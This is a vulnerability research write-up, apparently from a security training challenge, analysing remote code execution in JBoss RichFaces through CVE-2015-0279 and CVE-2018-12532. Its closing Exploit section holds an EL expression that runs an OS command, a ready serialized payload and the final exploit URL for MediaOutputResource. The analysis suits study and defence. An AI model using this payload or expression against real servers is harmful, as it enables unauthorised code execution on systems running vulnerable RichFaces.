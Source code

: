 ## CVE-2015-0279

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)





### Description

#### CVE-2015-0279

> **JBoss RichFacess before 4.5.4** allows remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via the do parameter
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2015-0279)



#### CVE-2018-12532

> **JBoss RichFaces 4.5.3 through 4.5.17** allows unauthenticated remote attackers to inject an arbitrary expression language (EL) variable mapper and execute arbitrary Java code via a **MediaOutputResource's resource request**, aka RF-14309.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-12532)



> Injection of arbitrary EL variable mapper allows to **bypass mitigation of CVE-2015-0279** and thereby remote code execution.
>
> [codewhitesec.blogspot.com](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)



#### Conclusion

RichFaces from 4.5.3 to 4.5.17 has a vulnerability in `MediaOutputResource` that allows injecting arbitrary EL variable mapper.



### Find the vulnerable entry point

As stated in CVEs' description, the vulnerability is attempted to be patched in Richfaces4.5.4, so let's make a comparison between the two versions: https://github.com/richfaces/richfaces/compare/4.5.3.Final...richfaces:4.5.4.Final

Look for `MediaOutputResource`:

![image-20200403120539022](I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200403120539022.png)

So the vulnerability is located in `richfaces-a4j:4.5.3:org.richfaces.resource.MediaOutputResource#encode()` method which calls `javax.el.MethodExpression#invoke()` to evaluate EL expression.





### Reach the vulnerable entry point

Refers to RichFaces Showcase for RichFaces 4.5.3.Final ([Github](https://github.com/richfaces/richfaces/tree/4.5.3.Final/examples/showcase))

> **RichFaces: Ajax enabled JSF 2.0 component library**
>
> **Online demo [http://showcase.richfaces.org](http://showcase.richfaces.org/)**
>
> RichFaces showcase is an application created to show **RichFaces components in action.** It contains a set of small use-cases implemented using RichFaces components.
>
> **Snapshot:**
>
> <img src="I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200403170908356.png" alt="image-20200403170908356" style="zoom: 50%;" />



It implies that RichFaces Showcase application utilizes the *MediaOutputResource* dynamic resource builder. 

Inspects requests made by functions:

<img src="I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200404170908347.png" alt="image-20200404170908347" style="zoom:50%;" />

<img src="I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200404170926471.png" alt="image-20200404170926471" style="zoom:50%;" />

Make 2^nd^ request to locally-built web app ([Source code](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/vulnerable_app.rar)), see that it reaches the vulnerable entry point.

<img src="I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200404174051025.png" alt="image-20200404174051025" style="zoom:50%;" />

<img src="I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200406211010528.png" alt="image-20200406211010528" style="zoom:50%;" />

`contentProducer` is the EL to be evaluated which, as we can see, is set beforehand. Thus, we have to examine the application's workflow to know how `contentProducer` gains its value..

 

#### Examine the workflow

I make a standalone post on this subject: [RichFaces's resource handler]()

At the step of restoring a resource's state, specific to `MediaOutputResource`:

```java
//org.richfaces.resource.ResourceUtils    
public static void restoreResourceState(FacesContext context, Object resource, Object state) {
        if (state == null) {
            // transient resource hasn't provided any data
            return;
        }

        if (resource instanceof StateHolderResource) {
          ...
        } else if (resource instanceof StateHolder) {
            StateHolder stateHolder = (StateHolder) resource;
            stateHolder.restoreState(context, state);
        }
    }
```

```java
//public class MediaOutputResource extends AbstractUserResource implements StateHolder, CacheableResource 
public void restoreState(FacesContext context, Object stateObject) {
        Object[] state = (Object[])((Object[])stateObject);
        this.setCacheable((Boolean)state[0]);
        this.setContentType((String)state[1]);
        this.userData = UIComponentBase.restoreAttachedState(context, state[2]);
        this.contentProducer = (MethodExpression)UIComponentBase.restoreAttachedState(context, state[3]);
        this.fileName = (String)state[4];
    }
```



Variable `state` gains it value by deserialization in `org.richfaces.resource.ResourceUtils#decodeObjectData()`: 

```java
public static Object decodeObjectData(String encodedData) {
        byte[] objectArray = decodeBytesData(encodedData);

        try {
            ObjectInputStream in = new LookAheadObjectInputStream(new ByteArrayInputStream(objectArray));
            return in.readObject();
        } catch (StreamCorruptedException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.STREAM_CORRUPTED_ERROR), e);
        } catch (IOException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DESERIALIZE_DATA_INPUT_ERROR), e);
        } catch (ClassNotFoundException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DATA_CLASS_NOT_FOUND_ERROR), e);
        }

        return null;
    }
```

![image-20200410002420187](I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200410002420187.png)

- `state[3].orig`: EL expression to be evaluated

  

In next step, response (images, videos, tables, …) is made for users by calling, in this case, `MediaOutputResource.decode()` which is the vulnerable entry point.

```java
public void encode(FacesContext facesContext) throws IOException {
        OutputStream outStream = facesContext.getExternalContext().getResponseOutputStream();
        this.contentProducer.invoke(facesContext.getELContext(), new Object[]{outStream, this.userData});
    }
```

`contentProducer` is the EL expression to be evaluated.

![image-20200410004340262](I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200410004340262.png)



#### Conclusion

- Make serialized object of  that:

  ```java
  // * is a must
  Object[5]: java.lang.Object
  	[0]*: Boolean - is cacheable
  	[1]: String - contentType of the response
  	[2]: StateHolderSaver
  		savedState: existed class (existed in application) - used as param to MethodExpression
      [3]*: StateHolderSaver
      	savedState: MethodExpression - EL expression to inject
  					
  ```

- `Deflate` encrypting. Use encryption functions provided by RichFaces  in `ResourceUtils`

- Payload: `GET /rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=<serialized object>`





### Exploit

#### Craft payload

Makes an web application that gets an EL expression as input and return string representing serialized object. Source code here [Github](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/payload_generator.rar)

<img src="I:\Current working projects\VCS Trainning\Challenge 7\CVE-2015-0279\images\image-20200410165221092.png" alt="image-20200410165221092" style="zoom: 33%;" />

EL expression to execute OS command:

```java
#{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("calc.exe")}
```

Serialized object:

```java
eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```

Final payload:

```java
/rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```



#### PoC

Video demo: https://drive.google.com/open?id=1-5JAxk5jDNCmX0eWXFMAiZot62b-WZbf

